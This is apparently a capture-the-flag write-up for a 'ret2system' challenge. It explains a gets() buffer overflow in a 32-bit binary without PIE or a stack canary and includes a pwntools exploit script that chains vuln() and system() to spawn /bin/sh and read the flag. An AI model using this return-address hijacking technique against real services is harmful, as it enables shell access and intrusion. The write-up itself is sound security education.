







## ret2system
### Architecture and protections
The binary is x32, with no PIE and no canary:



### Static analysis
`main()` has a vulnerable `gets()` at line 18:



There is a `vuln()` which can read 8 bytes of user input to a specified address:



There is a custom `system()` which calls the actual `system()` in libc:



There is a global variable `buffer` in `.bss` that can hold 8 bytes:



### Exploit planning
1. The addresses of `vuln()`, custom `system()` and `buffer` are known because PIE is disabled.
2. Buffer overflow via `gets()` in `main()` is trivial as canary is absent.
3. Use `gets()` in `main()` to overflow the local buffer and overwrite the return address to `vuln()`, with `system()` as the next return address, and `buffer` as the argument to `vuln()`.
4. Write `"/bin/sh"` to `buffer`.
5. When execution returns from `vuln()` to `system()`, pass `buffer` (which is now a pointer to the `"/bin/sh"` string in memory) as the argument.

### Exploit crafting
Finding the pad length required:



### Exploit code
```python
from pwn import *

elf = context.binary = ELF("./TH3BRAV3", checksec=False)
context.log_level = "error"

p = process()

payload = flat(
    12 * b'A',
    elf.sym['vuln'],
    elf.sym['system'],
    elf.sym['buffer'],
    elf.sym['buffer']
)

p.sendline(payload)
p.sendline(b"/bin/sh")
sleep(0.1)
p.sendline(b"cat flag.txt")
p.interactive()

# CDDC2025{shell_spawned_like_a_BRAVE_warrior}
```

### Exploit success

